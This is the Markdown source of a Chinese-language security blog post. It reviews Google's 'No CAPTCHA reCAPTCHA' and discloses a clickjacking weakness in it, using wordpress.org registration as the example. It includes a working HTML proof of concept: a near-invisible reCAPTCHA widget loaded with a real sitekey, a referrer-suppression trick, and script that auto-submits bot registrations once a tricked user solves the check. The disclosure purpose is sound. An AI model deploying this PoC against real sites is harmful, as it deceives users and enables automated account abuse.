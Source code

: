 ```yaml
---
layout: post
title: The security risk of "Google reCAPTCHA"
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


#### reCAPTCHA ([Index](http://www.google.com/recaptcha/intro/))

> Google在2014.12.03发表了一篇文章 《[Are you a robot? Introducing “No CAPTCHA reCAPTCHA”](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)》

文章开始讲述传统验证码的方式令“真正人类”头疼，且研究表明现在的人工智能技术已经能够解决99.8%的验证码，因此扭曲的文本验证方式可能不在是一个可靠的方法。

![gg_old_captcha](/images/gg_old_captcha.jpg)

- 头疼的验证码输入
- 不可靠的文字验证码

所以不少的社区论坛使用人工识别图片选择文字答案作为验证码的方式来代替传统的验证码。

随后Google推出了**```reCAPTCHA```**项目。

![demo](/images/Recaptcha_anchorxxxxxx2x.gif)

    reCAPTCHA被gg称作没有验证码的验证码（"No CAPTCHA reCAPTCHA"），
    他让用户只需要简单的勾选就可以确认你是真实用户而非恶意机器人，操作非常简单。

#### 非单一验证
Vinay Shet或者reCAPTCHA团队也考虑到这种判断方法可能会存在误报情况，所以将验证方式进行了稳固。

 1. 传统验证码并未消失，还是会有提示输入传统验证码的方法来检测：
 ![gg_old_captcha](/images/CAPTCHA_dsahkdhkusa213dsza7i21n.png)
 
 2. 展示一张图片，让用户选择他们下面提供的图片中哪张是符合图片的：
 ![gg_old_captcha](/images/turkey_captcha2.png)
 3. 好人/坏人的判断算法
 

reCAPTCHA并未详细的说明这个新的验证码API算法的具体情况，但其中好人坏人的判断方式应该最为复杂，或基于session/cookie？

> As more websites adopt the new API, more people will see "No CAPTCHA reCAPTCHAs".  Early adopters, like Snapchat, WordPress, Humble Bundle, and several others are already seeing great results with this new API. For example, in the last week, more than 60% of WordPress’ traffic and more than 80% of Humble Bundle’s traffic on reCAPTCHA encountered the No CAPTCHA experience—users got to these sites faster. To adopt the new reCAPTCHA for your website, visit our site to learn more.

文章的最后说越来越多的网站开始使用这个新的API，例如：Snapchat, WordPress, Humble Bundle等等，也推荐大家开始使用这个reCAPTCHA项目。

#### ClickJacking

当我看完这篇文章时非常激动，因为我们再也不需要为复杂或恶心的验证码所头疼了，但之后我发现reCAPTCHA可能存在ClickJacking这种攻击类型的安全隐患，其中我们以Wordpress官方站点为例。

 - [Wordpress官方站点注册用户](https://wordpress.org/support/register.php)

其中仅仅是帐号以及邮箱是必须的，然后勾选reCAPTCHA所提供的验证码即可完成注册。

 - [ClickJacking点击劫持攻击注册](http://1.hackersoul.sinaapp.com/payload/no_captcha_clickjacking.html)

![demo_1](/images/69DFB6AC-8075-4F45-AA00-031E6F0F084E.png)

等待过后你将跳转到注册成功的页面：

![demo_2](/images/1A61E266-8B1B-4BF1-813A-536B6FB09B7B.png)

{% highlight html %}
其中测试在古董浏览器上是无法正常进行的，另外需要提一下页面中需要添加
<meta name="referrer" content="never">
来绕过他禁止对第三方数据提供sitekey的防御。
{% endhighlight %}

> 需要注意的是，reCAPTCHA会在一段时间停滞不操作页面的情况下摧毁Session：
> 
![alert_session](/images/AEAA2D26-2AA0-4AA4-9BF7-1E8071A06F53.png)

#### POC

{% highlight bash %}
<html>
    <head>
        <title>No_CAPTCHA ClickJacking demo</title>
        <meta name="referrer" content="never">
		<script type='text/javascript' src='https://www.google.com/recaptcha/api.js?ver=2'></script>
	</head>
    <body>
    <form method="post" action="https://wordpress.org/support/register.php">
    <div style="opacity:0.1" class="g-recaptcha" data-sitekey="6Ld6gcoSAAAAAEkCxPeS-_sqEokNIHwNCOtx17xo"></div>
    <input name="user_login" type="hidden" id="user_login" size="30" maxlength="30" value="" />
    <input name="user_email" id="user_email" type="hidden" value="" />
    </form>  
	半透明为了更好的展示，点击测试攻击。
    <script>
        function makeid()
        {
            var text = "";
            var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
        
            for( var i=0; i < 7; i++ )
                text += possible.charAt(Math.floor(Math.random() * possible.length));
        
            return text;
        }
        user_login.value='BOT-'+makeid();
        user_email.value='BOT-'+makeid()+'@gmail.com';
        
        check = setInterval(function(){
          v=document.getElementById('g-recaptcha-response').value
          if(v.length>0){
            alert('Thanks for helping my bot! Your token is '+v);
            document.forms[0].submit();
            clearInterval(check);
          }
        },400)
    </script>
    </body>
</html>
{% endhighlight %}

#### 最后

google reCAPTCHA引进了一个非常NICE的验证码方式，在未来也同样可能有着跨时代的意义，但引入新模式的同时终会出现不可预料的问题，也许很多，很多。
 
 * 部分文献参考
    - [http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)
    - [http://homakov.github.io/nocaptcha.html](http://homakov.github.io/nocaptcha.html)
    - [http://www.bbc.com/news/blogs-magazine-monitor-30326350](http://www.bbc.com/news/blogs-magazine-monitor-30326350)